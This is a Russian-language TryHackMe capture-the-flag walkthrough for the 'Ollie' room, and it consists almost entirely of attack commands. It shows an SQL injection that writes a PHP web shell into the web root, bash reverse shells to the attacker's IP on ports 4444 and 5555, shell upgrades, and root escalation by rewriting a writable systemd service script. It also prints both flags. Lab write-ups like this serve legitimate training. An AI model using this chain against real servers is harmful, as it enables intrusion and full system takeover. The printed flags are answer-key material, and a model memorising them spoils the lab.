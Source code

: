 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Ollie](https://tryhackme.com/r/room/ollie) 

Всего 1 заданиe:
## Задание 1
Олли Юникс Монтгомери, печально известный хакерский пес, отличный игрок в красную команду. Что касается разработки...
не очень! Ходят слухи, что Олли испортил несколько файлов на сервере, чтобы обеспечить обратную совместимость. 
Возьмите управление, пока не истекло время!

Покойся с миром 01.05.2023
Пожалуйста, подождите до 3 минут, пока компьютер загрузится.

### Ответьте на вопросы ниже
Что такое флаг user.txt?
```commandline
nmap -sSCV <IP>
nc <IP> 1337
searchsploit phpipam
“ union select 1,2,3,’<?php system($_GET[“cmd”]); ?>’ into outfile ‘/var/www/html/rev.php’ -- -
/bin/bash -c “bash -i >& /dev/tcp/<my_own_IP>/4444 0>&1”
tty shell-escape
python3 -c ‘import pty;pty.spawn(“/bin/bash”)’
ctrl+z
stty raw -echo; fg
export TERM=xterm
su ollie
cat user.txt
```
```commandline
THM{Ollie_boi_is_daH_Cut3st}
```
Что такое флаг root.txt?
```commandline
find / -uid 1000 -perm -g=w -type f 2>/dev/null
cat /etc/systemd/system/feedme.service
echo '#!/bin/bash' > feedme
echo ' /bin/bash -c "bash -i >& /dev/tcp/<my_own_IP>/5555 0>&1"' >> feedme
nc -nvlp 5555
cat /root/root.txt
```
```commandline
THM{Ollie_Luvs_Chicken_Fries}
```


[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)